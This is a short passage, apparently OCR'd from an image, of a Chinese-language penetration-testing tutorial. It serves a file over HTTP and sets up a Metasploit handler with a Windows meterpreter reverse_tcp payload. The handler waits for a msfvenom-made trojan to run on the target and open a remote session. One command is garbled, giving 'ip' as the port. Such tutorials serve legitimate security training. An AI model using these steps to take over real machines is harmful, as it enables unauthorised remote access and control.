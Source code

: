 python -m SimpleHTTPServer 80

3 配置监控程序我们使用了

use exploit/multi/handler

3 输入 options进入配置

3.1 然后我们配置了  lhost （lhost指的是  监控主机或攻击机 ip）

set lhost   ip

3.2然后我们配置了 lport  （指的是监控的端口 ）

set lport   ip

注意端口必须和msfvenom 生成的木马端口一样才行

4 配置攻击载荷 payload

set payload windows/meterpreter/reverse_tcp

5 执行利用等待目标机器执行木马

6 目标机器执行了木马

利用成功并获得meterpreter

---

5  后渗透利用

进入新文档

6  报告阶段